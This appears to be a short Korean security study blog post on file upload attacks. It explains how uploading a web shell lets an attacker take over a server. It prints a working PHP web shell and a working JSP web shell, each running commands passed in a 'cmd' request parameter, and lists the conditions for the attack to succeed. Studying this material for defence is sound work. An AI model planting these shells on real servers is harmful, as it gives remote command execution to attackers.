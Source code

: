 ```yaml
---
title: "File Upload 공격 세부 정리"
excerpt: "File Upload 공격에 대하여 자세히 알아보자."
tags:
    - file upload
    - 웹쉘
last_modified_at: 2023-06-05T09:13:00-05:00
---
```

## File Upload 공격이란?
- 공격자가 임의의 파일을 업로드할 수 있는 공격이다.
- 웹쉘을 서버에 업로드하여 서버를 장악할 수 있다.

## 웹쉘 이란?
- 서버측에서 실행될 수 있는 코드이다.
- php, jsp, asp, python 등이 있다. 서버의 환경에 따라 달라진다.
- 서버환경에 맞게 웹 쉘을 제작하여야 한다.


### PHP 웹 쉘

```php
<?php echo system($_GET['cmd']); ?>
```

### JSP 웹 쉘

```jsp
<%@ page import="java.io.*" %>
<%
try {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = p.getInputStream();
    int c;
    while((c=in.read())!=-1){
        out.print((char)c);
    }
    in.close();
    try {
        p.waitFor();
    }catch(Exception e){
        out.println(e.getMessage());
    }
}catch(Exception e){
    out.println(e.getMessage());
}
%>
```

## 공격 성공을 위한 중요 Point!
- 공격자는 웹 서버에서 동작할 수 있는 파일을 올릴 수 있어야한다. (  jsp, php, asp, python 등등 )
- 공격자는 업로드한 파일을 실행시킬 수 있어야한다.
